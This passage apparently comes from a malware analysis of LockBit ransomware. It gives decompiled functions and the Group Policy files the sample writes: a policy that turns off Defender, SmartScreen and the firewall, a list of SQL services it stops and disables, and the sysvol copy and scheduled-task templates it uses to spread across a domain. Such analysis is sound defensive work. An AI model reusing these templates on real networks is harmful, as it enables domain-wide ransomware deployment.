        <Properties action="U" name="%%ComputerName%%_H" path="H:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_I" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_I" path="I:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_J" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_J" path="J:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_K" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_K" path="K:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_L" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_L" path="L:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_M" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_M" path="M:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_N" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_N" path="N:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_O" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_O" path="O:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_P" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_P" path="P:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_Q" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_Q" path="Q:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_R" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_R" path="R:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_S" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_S" path="S:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_T" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_T" path="T:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_U" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_U" path="U:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_V" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_V" path="V:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_W" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_W" path="W:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_X" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_X" path="X:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_Y" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_Y" path="Y:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
    <NetShare clsid="{2888C5E7-94FC-4739-90AA-2C1536D68BC0}" image="2" name="%%ComputerName%%_Z" changed="%s" uid="%s">
        <Properties action="U" name="%%ComputerName%%_Z" path="Z:" comment="" allRegular="0" allHidden="0" allAdminDrive="0" limitUsers="NO_CHANGE" abe="NO_CHANGE"/>
    </NetShare>
</NetworkShareSettings>
```

```c
undefined4 FUN_00415a84(int *param_1)
{
  ...
  local_30 = (undefined *)allocate_data_processheap_antidbg(0x800);
  if (((local_30 != (undefined *)0x0) &&
      // param_1 + 0x38 = IGroupPolicyObject::GetFileSysPath
      (iVar1=(**(code**)(*param_1+0x38))(param_1,2,local_30,0x400), iVar1 == 0)) &&
     (local_18 = FUN_0041497c(), // Preferences 
     local_18 != (uint *)0x0)) {
    // <GPO GUID>\MACHINE\Preferences
    (*PathAppendW)(local_30,local_18); 
    (*CreateDirectoryW)(local_30,0);
    puVar2 = FUN_00414a30(0); // NetworkShares
    if (puVar2 == (uint *)0x0) {
      local_1c = (uint *)0x0;
    }
    else {
      // <GPO GUID>\MACHINE\Preferences\NetworkShares
      (*PathAppendW)(local_30,puVar2); 
      rtl_freeheap_antidbg_func(puVar2);
      (*CreateDirectoryW)(local_30,0);
      local_1c = FUN_00414a30(1); // NetworkShares.xml
      if (local_1c != (uint *)0x0) {
        // <GPO GUID>\MACHINE\Preferences\NetworkShares\NetworkShares.xml
        (*PathAppendW)(local_30,local_1c);
        local_c = (*CreateFileW)(local_30,0x40000000,0,0,4,0x80,0);
        // FUN_00414aa8 -> current hour (e.g. 2025-06-04 22:23:55)
        // FUN_00414c08 -> deobfuscates GUID {25DC320F-15C5-4C0E-9223-E09CE1610C53}
        if (((local_c != -1) && (local_14 = FUN_00414aa8(), local_14 != 0)) &&
           (local_20 = FUN_00414c08(0x17), local_20 != (int *)0x0)) {
          iVar1 = DAT_00422970 << 4;
          local_24 = (byte *)allocate_data_processheap_antidbg(iVar1);
          // Decrypts and decompress the content to put at NetworkShares.xml
          if (((local_24 != (byte *)0x0) &&
              (local_2c = decrypt_payload_xor_custom_func(&DAT_00422974), local_2c != (byte *)0x0))
             && ((uVar5 = some_aplib_decompressor_func(extraout_ECX,extraout_EDX,local_2c,local_24),
                 (int)uVar5 != -1 &&
                 (local_28 = allocate_data_processheap_antidbg(iVar1), local_28 != 0)))) {
            iVar1 = 0x17;
            do {
              iVar1 = iVar1 + -1;
            } while (iVar1 != 0);
            uVar3 = (*sprintf)(local_28,local_24);
            local_2c = (byte *)0x0;
            local_30 = local_10;
            iVar1 = (*WriteFile)(local_c,local_28,uVar3);
            ...
          }
        }
      }
    }
  }
```
.
			- FUN_004157b4:
				At this function it sets group policy at `<GPO GUID>\MACHINE\Registry.pol` by putting the decrypted and decompressed data at `DAT_00422689`, the following registry configurations that disable Windows Defender features such as web protection, anti-spyware, real-time protection, submitting samples to Microsoft servers, and the firewall on all network hosts.
				<div align="center"></div>
        
```
PReg\x01
[SOFTWARE\Policies\Microsoft\Windows\System;GroupPolicyRefreshTimeDC;\x04;\x04;\x01]
[SOFTWARE\Policies\Microsoft\Windows\System;GroupPolicyRefreshTimeOffsetDC;\x04;\x04;\x01]
[SOFTWARE\Policies\Microsoft\Windows\System;GroupPolicyRefreshTime;\x04;\x04;\x01]
[SOFTWARE\Policies\Microsoft\Windows\System;GroupPolicyRefreshTimeOffset;\x04;\x04;\x01]
[SOFTWARE\Policies\Microsoft\Windows\System;EnableSmartScreen;\x04;\x04;]
[SOFTWARE\Policies\Microsoft\Windows\System;**delShellSmartScreenLevel;\x01;\x04;\x20]
[SOFTWARE\Policies\Microsoft\WindowsDefender;DisableAntiSpyware;\x04;\x04;\x01]
[SOFTWARE\Policies\Microsoft\WindowsDefender;DisableRoutinelyTakingAction;\x04;\x04;\x01]
[SOFTWARE\Policies\Microsoft\WindowsDefender\Real-TimeProtection;DisableRealtimeMonitoring;\x04;\x04;\x01]
[SOFTWARE\Policies\Microsoft\WindowsDefender\Real-TimeProtection;DisableBehaviorMonitoring;\x04;\x04;\x01]
[SOFTWARE\Policies\Microsoft\WindowsDefender\Spynet;SubmitSamplesConsent;\x04;\x04;\x02]
[SOFTWARE\Policies\Microsoft\WindowsDefender\Spynet;SpynetReporting;\x04;\x04;][SOFTWARE\Policies\Microsoft\WindowsFirewall\DomainProfile;EnableFirewall;\x04;\x04;]
[SOFTWARE\Policies\Microsoft\WindowsFirewall\StandardProfile;EnableFirewall;\x04;\x04;]
```
.
				And finally decrypts and decompresses the data at `DAT_00422810`, and puts it at `<GPO GUID>\MACHINE\comment.cmtx` to use it altogether with the `Registry.pol` change:
				<div align="center"></div>
        
```xml
<?xml version='1.0' encoding='utf-8'?>
<policyComments xmlns:xsd="http://www.w3.org/2001/XMLSchema"
                xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                revision="1.0"
                schemaVersion="1.0"
                xmlns="http://www.microsoft.com/GroupPolicy/CommentDefinitions">
  <policyNamespaces>
    <using prefix="ns0" namespace="Microsoft.Policies.GroupPolicy"></using>
    <using prefix="ns1" namespace="Microsoft.Policies.SmartScreen"></using>
    <using prefix="ns2" namespace="Microsoft.Policies.WindowsDefender"></using>
    <using prefix="ns3" namespace="Microsoft.Policies.WindowsFirewall"></using>
  </policyNamespaces>
  <comments>
    <admTemplate></admTemplate>
  </comments>
  <resources minRequiredRevision="1.0">
    <stringTable></stringTable>
  </resources>
</policyComments>
```

```c
undefined4 FUN_004157b4(int *param_1)
{
  ...
  local_54[0xf] = allocate_data_processheap_antidbg(0x800);
  if (((local_54[0xf] != 0) &&
      (local_54[0xe]=allocate_data_processheap_antidbg(0x800),local_54[0xe]!=0)) &&
      // param_1 + 0x38 = IGroupPolicyObject::GetFileSysPath
     (iVar1=(**(code**)(*param_1+0x38))(param_1,2,local_54[0xf],0x400),iVar1==0)) {
    (*wcscpy)(local_54[0xe],local_54[0xf]);
    ... // Registry.pol
    decode_n_blocks_w_mask_func(local_54 + 7,7);
    ... // comment.cmtx
    decode_n_blocks_w_mask_func(local_54,7);
    (*PathAppendW)(local_54[0xf],local_54 + 7); // <GPO GUID>\MACHINE\Registry.pol
    (*PathAppendW)(local_54[0xe],local_54); // <GPO GUID>\MACHINE\comment.cmtx
    local_54[0x11] = (*CreateFileW)(local_54[0xf],0x40000000,0,0,2,0x80,0);
    if (((local_54[0x11] != -1) &&
        (local_54[0x10] = (*CreateFileW)(local_54[0xe],0x40000000,0,0,2,0x80,0),
        local_54[0x10] != -1)) &&
       ((local_58 = (byte *)allocate_data_processheap_antidbg(DAT_00422685 << 4),
        local_58 != (byte *)0x0 &&
        (local_60 = decrypt_payload_xor_custom_func(&DAT_00422689), local_60 != (byte *)0x0)))) {
      uVar2 = // Decrypts and decompress registry content to put at Registry.pol
      if (((int)uVar2 != -1) &&
         (iVar1 = (*WriteFile)(local_54[0x11],local_58,(int)uVar2,local_c,0), iVar1 != 0)) {
        rtl_freeheap_antidbg_func(local_60);
        local_60 = (byte *)0x0;
        local_5c = (byte *)allocate_data_processheap_antidbg(DAT_0042280c << 4);
        //  Decrypts and decompress the content to put at comment.cmtx
        if ((local_5c != (byte *)0x0) &&
           (local_60 = decrypt_payload_xor_custom_func(&DAT_00422810), local_60 != (byte *)0x0)) {
          uVar2 = some_aplib_decompressor_func(extraout_ECX_00,extraout_EDX_00,local_60,local_5c);
          if (((int)uVar2 != -1) &&
             (iVar1 = (*WriteFile)(local_54[0x10],local_5c,(int)uVar2,local_c,0), iVar1 != 0)) {
            local_8 = 1;
          }
        }
      }
    }
  }
```
.
			- FUN_00414e50:
				At this function it sets group policy at `<GPO GUID>\MACHINE\Preferences\Services\Services.xml` and then decrypts and decompresses the data at `DAT_0042208a`, which will add policies to stop and disable certain services on the AD hosts.
				<div align="center"></div>
        
```xml
<?xml version="1.0" encoding="utf-8"?>
<NTServices clsid="{2CFB484A-4E96-4b5d-A0B6-093D2F91E6AE}">
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SQLPBDMS" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SQLPBDMS" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SQLPBENGINE" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SQLPBENGINE" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="MSSQLFDLauncher" image="4" changed="%s" uid="%s" userContext="0" removePolicy="0" disabled="0">
        <Properties startupType="DISABLED" serviceName="MSSQLFDLauncher" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SQLSERVERAGENT" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SQLSERVERAGENT" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="MSSQLServerOLAPService" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="MSSQLServerOLAPService" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SSASTELEMETRY" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SSASTELEMETRY" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SQLBrowser" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SQLBrowser" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SQL Server Distributed Replay Client" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SQL Server Distributed Replay Client" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SQL Server Distributed Replay Controller" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SQL Server Distributed Replay Controller" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="MsDtsServer150" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="MsDtsServer150" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SSISTELEMETRY150" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SSISTELEMETRY150" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SSISScaleOutMaster150" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SSISScaleOutMaster150" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SSISScaleOutWorker150" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SSISScaleOutWorker150" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="MSSQLLaunchpad" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="MSSQLLaunchpad" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SQLWriter" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SQLWriter" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="SQLTELEMETRY" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="SQLTELEMETRY" serviceAction="STOP" timeout="30"/>
    </NTService>
    <NTService clsid="{AB6F0B67-341F-4e51-92F9-005FBFBA1A43}" name="MSSQLSERVER" image="4" changed="%s" uid="%s" disabled="0">
        <Properties startupType="DISABLED" serviceName="MSSQLSERVER" serviceAction="STOP" timeout="60"/>
    </NTService>
</NTServices>
```
.
				So the services to be stopped in the AD hosts are the following:
					- **SQLPBDMS**
					- **SQLPBENGINE**
					- **MSSQLFDLauncher**
					- **SQLSERVERAGENT**
					- **MSSQLServerOLAPService**
					- **SSASTELEMETRY**
					- **SQLBrowser**
					- **SQL Server Distributed Replay Client**
					- **SQL Server Distributed Replay Controller**
					- **MsDtsServer150**
					- **SSISTELEMETRY150**
					- **SSISScaleOutMaster150**
					- **SSISScaleOutWorker150**
					- **MSSQLLaunchpad**
					- **SQLWriter**
					- **SQLTELEMETRY**
					- **MSSQLSERVER**
```c
undefined4 FUN_00414e50(int *param_1)
{
  ...
  iVar1 = allocate_data_processheap_antidbg(0x800);
  if (((iVar1 != 0) && 
  // param_1 + 0x38 = IGroupPolicyObject::GetFileSysPath
  (iVar2 = (**(code **)(*param_1 + 0x38))(param_1,2,iVar1,0x400), iVar2 == 0))
     // FUN_0041497c() = Preferences
     && (local_1c = FUN_0041497c(), local_1c != (uint *)0x0)) {
    // <GPO GUID>\MACHINE\Preferences
    (*PathAppendW)(iVar1,local_1c); 
    (*CreateDirectoryW)(iVar1,0);
    puVar3 = FUN_00414920(0); // Services
    if (puVar3 == (uint *)0x0) {
      local_20 = (uint *)0x0;
    }
    else {
      // <GPO GUID>\MACHINE\Preferences\Services
      (*PathAppendW)(iVar1,puVar3); 
      rtl_freeheap_antidbg_func(puVar3);
      (*CreateDirectoryW)(iVar1,0);
      local_20 = FUN_00414920(1); // Services.xml
      if (local_20 != (uint *)0x0) {
        // <GPO GUID>\MACHINE\Preferences\Services\Services.xml
        (*PathAppendW)(iVar1,local_20);
        local_c = (byte *)(*CreateFileW)(iVar1,0x40000000,0,0,4,0x80,0);
        // FUN_00414aa8 -> current hour (e.g. 2025-06-04 22:23:55)
        if (((local_c != (byte *)0xffffffff) && (local_18 = FUN_00414aa8(), local_18 != 0)) && 
        //FUN_00414c08 -> deobfuscates GUID{9900B5EC-0875-49AB-819C-C7AA8462BFF6} 
           (local_24 = FUN_00414c08(0x11), local_24 != (int *)0x0)) {
          iVar2 = DAT_00422086 << 4;
          local_28 = (byte *)allocate_data_processheap_antidbg(iVar2);
          //  Decrypts and decompress the content to put at Services.xml
          if (((local_28 != (byte *)0x0) &&
              (local_30 = decrypt_payload_xor_custom_func(&DAT_0042208a), local_30 != (byte *)0x0))
             && ((uVar5 = some_aplib_decompressor_func(extraout_ECX,extraout_EDX,local_30,local_28),
                 (int)uVar5 != -1 &&
                 (local_2c = allocate_data_processheap_antidbg(iVar2), local_2c != 0)))) {
            iVar2 = 0x11;
            do {
              iVar2 = iVar2 + -1;
            } while (iVar2 != 0);
            local_28 = (byte *)(*sprintf)(local_2c,local_28);
            local_20 = (uint *)0x0;
            local_30 = local_c;
            iVar2 = (*WriteFile)();
            ...
            }
          }
        }
      }
    }
  }
}
```
.
			- FUN_004150e0:
				At this function first it will try to self-propagate to the domain controller [`sysvol`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/group-policy/rebuild-sysvol-tree-and-content-in-a-domain) folder, which is a common directory for all public Active Directory files, making it accessible to all the hosts on the network domain, formatting the deobfuscated string `\\\\%s\\sysvol\\%\\scripts\\` into `\\\\<Domain Name>\\sysvol\<Domain Name>\\scripts\\<path_to_lockbit>`.
				Then it sets group policy at `<GPO GUID>\MACHINE\Preferences\Files\Files.xml` and then decrypts and decompresses the data at `DAT_004222c3`, which will make the LockBit copy in [`sysvol`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/group-policy/rebuild-sysvol-tree-and-content-in-a-domain) to be copied from sysvol into the deobfuscated directory `%TempDir%` on every network host.
				<div align="center"></div>
        
```xml
<?xml version="1.0" encoding="utf-8"?>
<Files clsid="{215B2E53-57CE-475c-80FE-9EEC14635851}">
    <File clsid="{50BE44C8-567A-4ed1-B1D0-9234FE1F38AF}" name="%s" status="%s" image="2" bypassErrors="1" changed="%s" uid="%s">
        <Properties action="U" fromPath="%s" targetPath="%s" readOnly="0" archive="1" hidden="0" suppress="0"/>
    </File>
</Files>
```
.
				Then it sets group policy at `<GPO GUID>\MACHINE\Preferences\Files\Files.xml` and then decrypts and decompresses the data at `DAT_004222c3`, which contains a task to execute the LockBit copy in `%TempDir%` to be executed with the highest privilege available automatically when this task is detected.
				<div align="center"></div>
        
```xml
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}">
    <TaskV2 clsid="{D8896631-B747-47a7-84A6-C155337F3BC8}" name="%s" image="2" changed="%s" uid="%s">
        <Properties action="U" name="%s" runAs="%s" logonType="InteractiveToken">
            <Task version="1.2">
                <RegistrationInfo>
                    <Author>%s</Author>
                    <Description></Description>
                </RegistrationInfo>
                <Principals>
                    <Principal id="Author">
                        <UserId>%s</UserId>
                        <LogonType>InteractiveToken</LogonType>
                        <RunLevel>HighestAvailable</RunLevel>
                    </Principal>
                </Principals>
                <Settings>
                    <IdleSettings>
                        <Duration>PT10M</Duration>
                        <WaitTimeout>PT1H</WaitTimeout>
                        <StopOnIdleEnd>false</StopOnIdleEnd>
                        <RestartOnIdle>false</RestartOnIdle>
                    </IdleSettings>
                    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
                    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
                    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
                    <AllowHardTerminate>true</AllowHardTerminate>
                    <AllowStartOnDemand>true</AllowStartOnDemand>
                    <Enabled>true</Enabled>
                    <Hidden>false</Hidden>
                    <ExecutionTimeLimit>P3D</ExecutionTimeLimit>
                    <Priority>7</Priority>
                </Settings>
                <Triggers>
                    <RegistrationTrigger>
                        <Enabled>true</Enabled>
                    </RegistrationTrigger>
                </Triggers>
                <Actions Context="Author">
                    <Exec>
                        <Command>%s</Command>
                        <Arguments>%s</Arguments>
                    </Exec>
                </Actions>
            </Task>
        </Properties>
    </TaskV2>
</ScheduledTasks>
```

```c
undefined4 FUN_004150e0(int *param_1,short *param_2,undefined4 param_3)
{
  ...
  local_28 = (short *)allocate_data_processheap_antidbg(0x800);
  if (local_28 != (short *)0x0) {
    ... // \\\\%s\\sysvol\\%\\scripts\\
    decode_n_blocks_w_mask_func(local_7c,0xc);
    // \\\\<Domain Name>\\sysvol\<Domain Name>\\scripts\\
    (*_swprintf)(local_28,local_7c,param_3,param_3);
    uVar4 = retrieve_process_path_from_peb();
    uVar4 = (*PathFindFileNameW)(uVar4); // <path_to_lockbit>
    // \\\\<Domain Name>\\sysvol\<Domain Name>\\scripts\\<lockbit_filename>
    (*PathAppendW)(local_28,uVar4); 
    uVar4 = retrieve_process_path_from_peb();
    iVar5 = (*CopyFileW)(uVar4,local_28,0); // Copy malware file to DC route
    if ((((iVar5 != 0) && (local_2c = allocate_data_processheap_antidbg(0x800), local_2c != 0)) && 
         // param_1 + 0x38 = IGroupPolicyObject::GetFileSysPath
        (iVar5 = (**(code **)(*param_1 + 0x38))(param_1,1,local_2c,0x400), iVar5 == 0)) && // FUN_0041497c() = Preferences
       (local_24 = FUN_0041497c(), local_24 != (uint *)0x0)) {
      //<GPO GUID>\MACHINE\Preferences
      (*PathAppendW)(local_2c,local_24); 
      (*CreateDirectoryW)(local_2c,0);
      local_1c = FUN_004148c4(0); // Files
      if (local_1c == (uint *)0x0) {
        local_1c = (uint *)0x0;
      }
      else {
        //<GPO GUID>\MACHINE\Preferences\Files
        (*PathAppendW)(local_2c,local_1c);
        rtl_freeheap_antidbg_func(local_1c);
        local_1c = (uint *)0x0;
        (*CreateDirectoryW)(local_2c,0);
        local_1c = FUN_004148c4(1); // Files.xml
        if (local_1c != (uint *)0x0) {
          //<GPO GUID>\MACHINE\Preferences\Files\Files.xml
          (*PathAppendW)(local_2c,local_1c);
          local_c = (*CreateFileW)(local_2c,0x40000000,0,0,4,0x80,0);
          // FUN_00414aa8 -> current hour (e.g. 2025-06-04 22:23:55)
          if (((local_c != -1) && (local_14 = FUN_00414aa8(), local_14 != 0)) &&
          // FUN_00414c08 -> deobfuscate GUID{D58B27E1-CAB1-4661-AA04-366B4E753731}
             (local_18 = FUN_00414c08(1), local_18 != (int *)0x0)) {
            puVar9 = local_8d;
            do {
              uVar6 = 0;
              iVar5 = 4;
              psVar8 = param_2;
              do {
                param_2 = psVar8 + 1;
                uVar3 = (undefined)*psVar8;
                if (*psVar8 == 0) {
                  *(undefined *)puVar9 = uVar3;
                  iVar5 = DAT_004222bf << 4;
                  local_30 = (byte *)allocate_data_processheap_antidbg(iVar5);
                  //  Decrypts and decompress the content to put at Files.xml
                  if (((local_30 == (byte *)0x0) ||
                      (local_38 = decrypt_payload_xor_custom_func(&DAT_004222c3),
                      local_38 == (byte *)0x0)) ||
                     ((uVar12 = some_aplib_decompressor_func (extraout_ECX,extraout_EDX,local_38,local_30),
                      (int)uVar12 == -1 ||
                      (local_34 = allocate_data_processheap_antidbg(iVar5), local_34 == 0))))
                  goto LAB_0041570d;
                  ... // %TempDir%
                  decode_n_blocks_w_mask_func(local_10d,3);
                  FUN_00401218(local_28,(undefined *)local_28);
         // \\\\<Domain Name>\\sysvol\<Domain Name>\\scripts\\<lockbit_copy>
                  uVar4 = (*PathFindFileNameA)(local_28);
                  (*PathAppendA)(local_10d,uVar4); // %TempDir%\<lockbit_filename>
                  piVar2 = local_18;
                  uVar4 = (*sprintf)(local_34,local_30,local_8d,local_8d,local_14,*local_18,local_28
                                     ,local_10d); 
                  // Write content to Files.xml
                  iVar5 = (*WriteFile)(local_c,local_34,uVar4,local_10,0);
                  if (iVar5 == 0) goto LAB_0041570d;
                  ...
                  local_2c = allocate_data_processheap_antidbg(0x800);
                  if (((local_2c == 0) ||
                  // param_1 + 0x38 = IGroupPolicyObject::GetFileSysPath
        (iVar5=(**(code**)(*param_1+0x38))(param_1,1,local_2c,0x400),iVar5 !=0))
		          // FUN_0041497c() = Preferences  
                  || (local_24 = FUN_0041497c(), local_24 == (uint *)0x0)) 
		            goto LAB_0041570d;
		          //<GPO GUID>\MACHINE\Preferences
                  (*PathAppendW)(local_2c,local_24); 
                  (*CreateDirectoryW)(local_2c,0);
                  local_20 = FUN_004149c0(0); // ScheduledTasks
                  if (local_20 == (uint *)0x0) {
                    local_20 = (uint *)0x0;
                    goto LAB_0041570d;
                  }
                  //<GPO GUID>\MACHINE\Preferences\ScheduledTasks
                  (*PathAppendW)(local_2c,local_20);
                  (*CreateDirectoryW)(local_2c,0);
                  rtl_freeheap_antidbg_func(local_20);
                  local_20 = (uint *)0x0;
                  local_20 = FUN_004149c0(1); // ScheduledTasks.xml
                  if (local_20 == (uint *)0x0) goto LAB_0041570d;
                //<GPO GUID>\MACHINE\Preferences\ScheduledTasks/ScheduledTasks.xml
                  (*PathAppendW)(local_2c,local_20);
                  local_c = (*CreateFileW)(local_2c,0x40000000,0,0,4,0x80,0);
                  // FUN_00414aa8 -> current hour (e.g. 2025-06-04 22:23:55)
                  if (((local_c==-1)||(local_14=FUN_00414aa8(),local_14==0)) ||
		  // FUN_00414c08 -> deobfuscate GUID{D58B27E1-CAB1-4661-AA04-366B4E753731}
                     (local_18 = FUN_00414c08(1), local_18 == (int *)0x0)) 
	                 goto LAB_0041570d;
                  ... // NT AUTHORITY\\SYSTEM
                  decode_n_blocks_w_mask_func(local_7c + 0xc,5);
                  puVar9 = local_8d;
                  puVar11 = local_8d;
                  goto LAB_0041562b;
                }
                uVar7 = (uint3)(uVar6 >> 8);
